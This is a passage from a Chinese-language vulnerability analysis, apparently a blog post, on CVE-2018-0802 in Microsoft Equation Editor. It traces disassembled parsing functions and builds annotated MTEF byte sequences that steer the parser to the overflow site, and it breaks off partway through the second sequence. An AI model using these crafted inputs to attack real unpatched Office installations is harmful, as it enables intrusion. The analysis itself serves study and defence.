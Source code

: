 图16

可以看到sub_437c9d的函数逻辑非常简单，基本上就是：

循环读入下一个字节-&gt;如果不为空则调用sub_43a78f进行相应的解析

我们来看一下sub_43a78f的函数逻辑(图17)：

[![](https://p1.ssl.qhimg.com/t014a901fe901be2fb8.png)](https://p1.ssl.qhimg.com/t014a901fe901be2fb8.png)

图17

可以看到sub_43a78f先是调用sub_43a720函数，然后将其的返回值减去1得到一个case值，最后在一个switch语句中根据case获取相应的虚表地址，最后调用 [地址+0x20] 处的函数进行处理。显然，只要进入case 4，就可以进入checkpoint文章中提到的sub_443e34函数，从而顺利到达cve-2018-0802-size的溢出现场。

本来还要再看一下sub_43a720函数的逻辑，但sub_43a720的逻辑上面刚刚分析过(图14)，所以我只要让下一个读入的字节等于5即可(dsize-low-byte的后面第6个字节 &amp; 0xF = 5，调试时发现前面的解析中会读入dsize-low-byte后面的5个字节)。

所以，到目前为止我构造的数据如下：

```
03 01 01 03 0A // MTEF头部

0A // 初始SIZE

09 // tag

64 // 0n100

22 // lsize

1c // dsize-high-byte

4c // dsize-low-byte

44 // 确保进入case 4

66 // 填充用，随意

77 // 填充用，随意

09 // 填充用，随意

05 // 填充用，随意

AA // 填充用，随意

55 // 确保进入第2个case 4
```

好了，现在我已经进入sub_443e34函数了，可以看到这个函数在读入v12,v13对应的数值前，还会读入3个字节，所以需要在55后面继续填充3个字节，然后是v12和v13对应的数值，因为checkpoint文章中给的是0x1c,0x4c，所以我直接拿来用了。这样一来，就可以顺利进入sub_443e34函数，实际情况也确实如此。

现在，我构造的数据变成了如下：

```
03 01 01 03 0A // MTEF头部

0A // 初始SIZE

09 // tag

64 // 0n100

22 // lsize

1c // dsize-high-byte

4c // dsize-low-byte
```